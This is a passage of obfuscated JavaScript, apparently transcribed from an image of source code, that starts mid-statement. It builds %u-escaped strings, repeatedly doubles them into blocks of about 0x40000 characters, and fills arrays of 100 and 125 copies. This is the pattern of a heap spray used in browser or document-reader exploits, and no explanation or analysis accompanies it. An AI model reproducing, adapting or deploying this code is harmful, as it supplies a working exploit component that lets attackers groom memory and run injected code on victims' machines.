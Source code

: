 ```javascript
  OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(
    0,
    fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA
  );
MOysyGgYplwyZzNdETHwkru =
  OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(
    0,
    OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length -
      fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA
  );
while (
  MOysyGgYplwyZzNdETHwkru.length +
    fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA <
  0x40000
)
  MOysyGgYplwyZzNdETHwkru =
    MOysyGgYplwyZzNdETHwkru +
    MOysyGgYplwyZzNdETHwkru +
    UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb;
DPwxazRhwbQGu = new Array();
for (
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 0;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA < 100;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++
)
  DPwxazRhwbQGu[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] =
    MOysyGgYplwyZzNdETHwkru + ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv;

for (
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 142;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA >= 0;
  --EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA
)
  zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += unescape("%ub550%u0166");
bGtvKT = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length + 20;
while (zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length < bGtvKT)
  zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf +=
    zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
Juphd = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, bGtvKT);
QCZabMzxQiD = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(
  0,
  zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length - bGtvKT
);
while (QCZabMzxQiD.length + bGtvKT < 0x40000)
  QCZabMzxQiD = QCZabMzxQiD + QCZabMzxQiD + Juphd;
FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE = new Array();
for (
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 0;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA < 125;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++
)
  FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE[
    EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA
  ] = QCZabMzxQiD + zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
```

